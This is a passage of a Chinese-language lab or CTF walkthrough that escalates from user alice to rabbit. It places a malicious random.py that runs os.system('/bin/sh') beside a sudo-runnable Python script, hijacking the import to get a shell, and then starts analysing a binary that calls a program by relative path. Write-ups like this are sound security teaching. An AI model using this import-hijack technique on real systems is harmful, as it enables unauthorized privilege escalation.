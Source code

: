 看起来就是利用random库实现一个随机打印10行诗歌，我们定位一个random库的位置，先看一下python3模块的目录

```plain
python3 -c 'import sys; print (sys.path)'
```

[![](assets/1706771526-b3e7ae38bddb0faff0141a2668266b23.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222738-8de09324-beb2-1.png)

发现这里有一个空白的的模块未被使用

这里我创建了一个起/bin/sh的脚本

```plain
import os

os.system('/bin/sh')
```

[![](assets/1706771526-f8c2be0a98782916164ff2589b098927.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222744-9159518a-beb2-1.png)

这样和walrus脚本在同一目录，这样的话，他和random.py是调用模块是一样的，我们如果执行了walrus脚本，也可以执行random.py

```plain
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

[![](assets/1706771526-9ed275cb4b24560cfdf7da4429c879f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222750-94835d10-beb2-1.png)

### 调用二进制文件相对路径的坏处

进入rabbit目录，发现有一个64位的二进制文件，直接执行发现没有提权，IDA分析一下，发现main函数存在逻辑问题

[![](assets/1706771526-cca06f65ddab20863f60d8f302aca4f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222754-97524dbc-beb2-1.png)
